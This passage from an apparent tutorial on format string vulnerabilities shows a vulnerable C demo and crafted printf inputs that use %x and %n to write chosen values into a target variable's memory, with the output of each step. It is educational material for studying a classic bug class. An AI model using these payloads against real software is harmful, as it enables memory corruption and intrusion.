 ```

        char* ptr = getenv("SHELL");
        printf("\nMemory address of SHELL environment variable @ 0x%08x\n", ptr);

        printf("Memory address of overwrite_me @ 0x%08x = %d 0x%08x\n", &overwrite_me, overwrite_me, overwrite_me);

        return(0);
}

```

```
./demo


Memory address of SHELL environment variable @ 0xffffd46e = 47 0x0000002f
Memory address of overwrite_me @  0xffffbe8c = 0 0x00000000

```

With the above code we're now able to see that the memory address of overwrite_me is at 0xffffbe8c and it contains the value 0.

We can use a similar technique with %n rather than %s, to write to arbitrary memory.

`echo "$(printf '\x8c\xbe\xff\xff')%08x %08x %08x %08x %n" | ./demo`
```
����ffffd228 080491cc ffffbe90 00000000 


Memory address of SHELL environment variable @ 0xffffd46e = 47 0x0000002f
Memory address of overwrite_me @  0xffffbe8c = 40 0x00000028
```

The value 40 that we have written into `int overwrite_me` is calculated based on the amount of characters we printed up until that point. i.e. the length of the string: `"����ffffd228 080491cc ffffbe90 00000000 "` in the example above.


We can control this value easily if we adjust the field width option. We've been printing 8 hex characters with our %08x templates, but we can actually just adjust this 8 to a larger number to increase the amount of characters we print.

`echo "$(printf '\x8c\xbe\xff\xff')%x%x%x%x%n" | ./demo`
```����ffffd22880491ccffffbe900


Memory address of SHELL environment variable @ 0xffffd46e = 47 0x0000002f
Memory address of overwrite_me @  0xffffbe8c = 28 0x0000001c
```

+1
`echo "$(printf '\x8c\xbe\xff\xff')%x%x%x%2x%n" | ./demo`
```
����ffffd22880491ccffffbe90 0


Memory address of SHELL environment variable @ 0xffffd46e = 47 0x0000002f
Memory address of overwrite_me @  0xffffbe8c = 29 0x0000001d
```
